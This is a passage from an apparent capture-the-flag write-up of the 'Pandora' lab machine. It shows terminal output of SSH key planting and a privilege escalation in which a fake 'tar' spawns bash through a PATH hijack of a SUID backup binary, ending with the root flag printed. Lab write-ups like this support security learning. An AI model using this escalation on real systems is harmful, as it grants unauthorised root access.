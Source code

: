```python
|     = = . . +  =|
|      + = = +.==E|
|       + * .o*+@o|
|        . .. =XBB|
+----[SHA256]-----+
matt@pandora:/home/matt$ 
matt@pandora:/home/matt$ cd .ssh
matt@pandora:/home/matt/.ssh$ ls
id_rsa  id_rsa.pub
matt@pandora:/home/matt/.ssh$ mv id_rsa.pub authorized_keys
matt@pandora:/home/matt/.ssh$
```
{: .nolineno}
{: .nolineno}

 I knew that the `/usr/bin/pandora_backup` file have SUIDs permissions so I created the tar command as executable from different path .

```python
matt@pandora:/tmp$ echo "/bin/bash" > tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/tmp# whoami
root
root@pandora:/tmp# id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:/tmp# cd /root
root@pandora:/root# ls -al
total 36
drwx------  5 root root 4096 Dec 31 14:52 .
drwxr-xr-x 18 root root 4096 Dec  7  2021 ..
drwxr-xr-x  2 root root 4096 Dec 31 18:28 .backup
lrwxrwxrwx  1 root root    9 Jun 11  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jan  3  2022 .cache
-rw-r--r--  1 root root  250 Dec 31 14:52 .host_check
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-r--------  1 root root   33 Dec 31 14:52 root.txt
drwx------  2 root root 4096 Dec  7  2021 .ssh
root@pandora:/root# cat root.txt
83080c424f837712c2e6ff0f1843aab3
root@pandora:/root#
```
{: .nolineno}
{: .nolineno}

I am root now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }